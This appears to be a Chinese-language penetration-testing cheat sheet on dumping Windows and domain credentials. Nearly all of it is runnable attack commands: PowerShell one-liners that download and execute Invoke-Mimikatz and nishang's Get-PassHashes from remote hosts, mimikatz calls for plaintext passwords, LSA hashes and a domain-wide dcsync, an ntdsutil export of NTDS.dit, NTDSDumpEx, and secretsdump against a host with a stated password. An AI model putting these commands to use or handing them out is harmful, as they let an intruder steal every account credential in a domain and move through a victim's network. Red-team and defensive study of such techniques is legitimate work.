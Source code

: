 ![image](http://www.xmrseo.com/content/uploadfile/201805/dad51527169390.jpg)

`net use \\ip\ipc$ pawword /user:username  `建立IPC会话





### 抓取内存中的hash/密码

抓明文

```
powershell IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/mattifestation/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1'); Invoke-Mimikatz -DumpCerts
```

#### 普通hash

抓hash

```
powershell IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/samratashok/nishang/master/Gather/Get-PassHashes.ps1');Get-PassHashes
```

抓取明文:` mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords full" exit `

抓取hash:`mimikatz log "privilege::debug" "lsadump::lsa /patch" exit`

`mimikatz.exe "privilege::debug" "lsadump::dcsync /domain:god.org /all /csv" exit`

#### 域hash

NTDS.dit获取域控hash

这个思路在域渗透中尤为重要，因为这里面包含着所有域用户的hash，当然该思路只对DC生效。

手动导出NTDS.dit和System-hive，本地或目标机导hash，因为，如果域足够大，该文件也会特别大。

` ntdsutil "ac i ntds" ifm "create full c:\users\tmp" q q `



` NTDSDumpEx -d ntds.dit -s system -o domain.txt `:注意-d 为ntds.dit路径,-s为system(导出的)路径

![image](https://image.3001.net/images/20191022/1571757314_5daf1d0242611.png!small)



```
python secretsdump.py -system SYSTEM -ntds ntds.dit local
python secretsdump.py rabbitmask:1q2w3e4r!@192.168.15.181

```

![image](https://image.3001.net/images/20191022/1571757406_5daf1d5ee8ee7.png!small)

![image](https://image.3001.net/images/20191022/1571757426_5daf1d72d86f0.png!small)


